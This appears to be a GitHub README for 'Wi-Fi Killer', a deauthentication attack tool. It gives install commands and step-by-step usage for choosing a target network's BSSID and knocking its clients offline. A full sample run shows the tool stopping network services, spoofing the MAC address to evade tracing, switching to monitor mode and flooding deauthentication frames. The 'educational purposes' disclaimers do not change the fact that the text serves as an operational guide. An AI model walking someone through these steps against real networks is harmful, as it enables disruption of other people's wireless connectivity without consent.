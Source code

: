 # 🚀 Wi-Fi Killer - Deauthentication Script

## ⚡ What is it?

Wi-Fi Killer is a simple tool that lets you perform a **deauthentication attack** on Wi-Fi networks. 🛠️ It sends packets to disconnect devices from a target network (BSSID). Only use it on networks you own or have explicit permission to attack! 🚨

💥 **Warning**: This script is for **educational purposes only**! Misusing it could get you in legal trouble. 🏴‍☠️

---

## 🛠️ Features

- 🏙️ **Scan networks** and see their details (SSID, BSSID, channel, etc.)
- 💣 **Deauth attack**: Disconnect devices from a selected Wi-Fi network
- 🕵️‍♂️ **Anonymize your MAC** address for privacy
- 🔄 **Change channels** to target specific networks more easily
- 🚫 **Stop NetworkManager** to prevent automatic mode-switching

---

## 🔥 Requirements

Before you can use this script, you'll need to install some tools:

- aircrack-ng 🔐
- macchanger 🛡️
- iw 📡
- libncurses5-dev 🎮
- libpcap-dev 🕹️
- Python 3 + pip 🐍

You'll also need to install the `tabulate` library:

```bash
pip3 install tabulate
```
Get it up and running in just a few steps! 🎉

Clone the repo:
```bash
git clone https://github.com/thisudo/wifi-Deauthentication-script
cd wifi-Deauthentication-script
sudo bash install.sh
```
This will set up all your dependencies:

🏃‍♂️ Usage
Run the script:
```bash
sudo python3 wifi_killer.py
```
Pick your interface (e.g., wlan0).

Scan networks and pick the BSSID of the target you want to attack. 💥

Confirm the channel and start the attack. 💣

Hit Ctrl+C to stop the attack and clean everything up. 🔚

## Exemple on ubuntu
```bash
██╗    ██╗██╗      ███████╗██╗    ██╗  ██╗██╗██╗     ██╗     ███████╗██████╗ 
██║    ██║██║      ██╔════╝██║    ██║ ██╔╝██║██║     ██║     ██╔════╝██╔══██╗
██║ █╗ ██║██║█████╗█████╗  ██║    █████╔╝ ██║██║     ██║     █████╗  ██████╔╝
██║███╗██║██║╚════╝██╔══╝  ██║    ██╔═██╗ ██║██║     ██║     ██╔══╝  ██╔══██╗
╚███╔███╔╝██║      ██║     ██║    ██║  ██╗██║███████╗███████╗███████╗██║  ██║
 ╚══╝╚══╝ ╚═╝      ╚═╝     ╚═╝    ╚═╝  ╚═╝╚═╝╚══════╝╚══════╝╚══════╝╚═╝  ╚═╝
                                                                       by: abdo3Dr 
[!] Wi-Fi Deauthentication Script [!]                
    For educational purposes only!
    Use at your own risk on your own network!
    I am not responsible for any misuse!

**************************************************
[INFO] Scan networks and launch deauth attack.
[WARNING] Only use this on networks you own!
**************************************************
lo        no wireless extensions.

eno1      no wireless extensions.

wlp2s0    IEEE 802.11  ESSID:"<HIDDEN_SSID>"  
          Mode:Managed  Frequency:2.412 GHz  Access Point: <HIDDEN_BSSID>   
          Bit Rate=58.5 Mb/s   Tx-Power=15 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Encryption key:off
          Power Management:on
          Link Quality=46/70  Signal level=-64 dBm  
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:0  Invalid misc:97   Missed beacon:0

docker0   no wireless extensions.

[?] Enter your INTERFACE: wlp2s0
+-------------------+----------------------------+---------+-----------------------+------------+
|       BSSID       |            SSID            | Channel | Signal Strength (dBm) | Encryption |
+-------------------+----------------------------+---------+-----------------------+------------+
| <HIDDEN_BSSID>    |        <HIDDEN_SSID_1>      |   48    |          -77          |    Yes     |
| <HIDDEN_BSSID>    |      <HIDDEN_SSID_2>       |   11    |          -57          |    Yes     |
| <HIDDEN_BSSID>    |         <HIDDEN_SSID_3>    |    9    |          -73          |    Yes     |
| <HIDDEN_BSSID>    |    <HIDDEN_SSID_4>         |    3    |          -54          |    Yes     |
| <HIDDEN_BSSID>    |        <HIDDEN_SSID_5>     |    1    |          -65          |    Yes     |
| <HIDDEN_BSSID>    |     <HIDDEN_SSID_6>        |    2    |          -71          |    Yes     |
| <HIDDEN_BSSID>    |    <HIDDEN_SSID_7>         |    6    |          -79          |    Yes     |
| <HIDDEN_BSSID>    |           <HIDDEN_SSID_8>  |    6    |          -79          |    Yes     |
| <HIDDEN_BSSID>    |           <HIDDEN_SSID_9>  |    7    |          -81          |    Yes     |
| <HIDDEN_BSSID>    | <HIDDEN_SSID_10>           |    1    |          -87          |    Yes     |
| <HIDDEN_BSSID>    |           <HIDDEN_SSID_11> |   40    |          -86          |    Yes     |
+-------------------+----------------------------+---------+-----------------------+------------+

 [?] Enter the Wi-Fi BSSID to attack: <HIDDEN_BSSID>
Disconnecting from the AP...
[*] Killing interfering processes...

Killing these processes:

    PID Name
  30183 NetworkManager
  30193 wpa_supplicant
  30839 avahi-daemon
  30842 avahi-daemon

[*] Anonymizing MAC address...
Current MAC:   <HIDDEN_MAC> (unknown)
Permanent MAC: <HIDDEN_MAC> (Intel Corporate)
New MAC:       <HIDDEN_MAC> (unknown)
[+] MAC address anonymized.
[*] Enabling monitor mode on wlp2s0...

Found 2 processes that could cause trouble.
Kill them using 'airmon-ng check kill' before putting
the card in monitor mode, they will interfere by changing channels
and sometimes putting the interface back in managed mode

    PID Name
  30858 avahi-daemon
  30860 avahi-daemon

PHY	Interface	Driver		Chipset

phy0	wlp2s0		iwlwifi		Intel Corporation Centrino Advanced-N 6200 (rev 35)
		(monitor mode enabled)

[+] Monitor mode enabled on wlp2s0.
Changing channel to 11...
Sending deauthentication packets to BSSID: <HIDDEN_BSSID>
06:46:28  Waiting for beacon frame (BSSID: <HIDDEN_BSSID>) on channel 11
NB: this attack is more effective when targeting
a connected wireless client (-c <client's mac>).
06:46:28  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:28  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:29  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:29  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:30  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:30  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:31  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:31  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:32  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:32  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:32  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:33  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:33  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:34  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:34  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:35  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
```
⚠️ Important Notes
Run as root: You need admin privileges to make this work. (sudo is your friend) 🧑‍💻
Be responsible: Don't mess with networks you don't own. 🚫
NetworkManager might try to reconnect your interface automatically. The script does its best to stop that! ⛔
Legal stuff: You're on your own here. Make sure you understand the laws in your country. 📜
📜 License
This script is licensed under the MIT License. Use it at your own risk! ⚠️

✍️ Author
Abdo3Dr
